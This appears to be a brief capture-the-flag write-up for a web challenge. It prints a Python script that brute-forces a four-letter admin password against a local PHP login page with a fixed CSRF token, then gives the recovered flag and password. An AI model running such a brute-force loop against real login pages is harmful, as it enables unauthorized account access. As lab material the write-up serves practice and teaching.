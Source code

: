 we brute force the password with python requests.post <br />
python script is <br />
```
import requests
ans=list('abcdefghijklmnopqrstuvwxyz')
url='http://127.0.0.1:8000/web2.php'
for i in range(26):
        for j in range(26):
                for k in range(26):
                        for l in range(26):
                                text=requests.post(url,{'password':ans[l]+ans[k]+ans[j]+ans[i],'user':'admin','csrf':'98737263'})
                                if 'JCTF' in text.text:
                                        print(text.text)
                                        break
```
flag='JCTF{c5rf_15_cr4p}'
password='heda'
